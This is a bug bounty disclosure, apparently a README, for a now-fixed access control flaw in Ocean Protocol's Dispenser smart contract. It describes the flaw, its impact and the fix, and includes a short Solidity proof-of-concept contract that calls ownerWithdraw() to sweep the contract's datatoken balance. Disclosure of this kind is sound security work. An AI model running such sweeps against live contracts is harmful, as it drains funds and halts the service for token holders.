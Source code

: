 # Improper Access Control on Ocean Protocol Dispenser Contract

## Target: *https://github.com/oceanprotocol/contracts/blob/v4main/contracts/pools/dispenser/Dispenser.sol*

## Severity: Medium

## Status : Fixed

## Commit: *https://github.com/oceanprotocol/contracts/commit/421894dadb7bb5b51340afe022ae716c280670f0*

## Reward: $5,000

## Bug Description
*The function ownerWithdraw() is not protected with proper access controls and leaves anyone to call the function and sweeps the entire balance of data token that which Dispenser contract hold*

## Permalink
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L253
https://github.com/oceanprotocol/contracts/blob/b937a12b50dc4bdb7a6901c33e5c8fa136697df7/contracts/pools/dispenser/Dispenser.sol#L261

## Proof Of Concept :
```
pragma solidity ^0.8.12;

interface IDispenser {
    function ownerWithdraw(address datatoken) external;
}

contract sweep {
    IDispenser dispenser = IDispenser(DISPENSER_ADDRESS);
    function sweep() external {
        dispenser.ownerWithdraw(DATATOKEN_ADDRESS);
    }
}
```
## Impact
*The balance is entirely transferred to the payment collector and makes "Smart contract unable to operate due to lack of token funds".
The Token Funds are used in the dispense() function and transferred to the destination address called by users who hold the DT tokens.*

## Recommendation
*Need to Implement Access Control.*
